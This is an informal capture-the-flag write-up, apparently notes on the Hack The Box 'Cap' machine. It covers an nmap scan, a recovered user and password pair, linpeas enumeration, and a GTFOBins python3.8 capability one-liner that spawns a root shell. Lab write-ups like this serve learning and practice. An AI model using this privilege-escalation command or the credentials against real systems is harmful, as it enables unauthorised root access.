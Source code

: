 Let's do the default steps:
`nmap 10.10.10.245  -Pn -A` and add `10.10.10.245 cap.htb` to `/etc/hosts`

![[Pasted image 20250428185603.png]]
![[Pasted image 20250428185615.png]]

`PASS Buck3tH4TF0RM3!` 
`USER nathan`

There a thing called `linpeash.sh` we run to scan the whole machine for any vulnerabilities. It gives a bunch of CVEs.
![[Pasted image 20250428194304.png]]

One peculiar thing is the `python3.8` executable has the capability to do `setuid` for users to run programs.

Now, there is this site called https://gtfobins.github.io/. Look at python's exploit and it says when the cap bit us set we can run below code and get a root shell!
`python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash -p")'`

Voila! Now, we simply get the flag from `/root/root.txt` and treat yourself to a fresh crisp glass of god's necter!


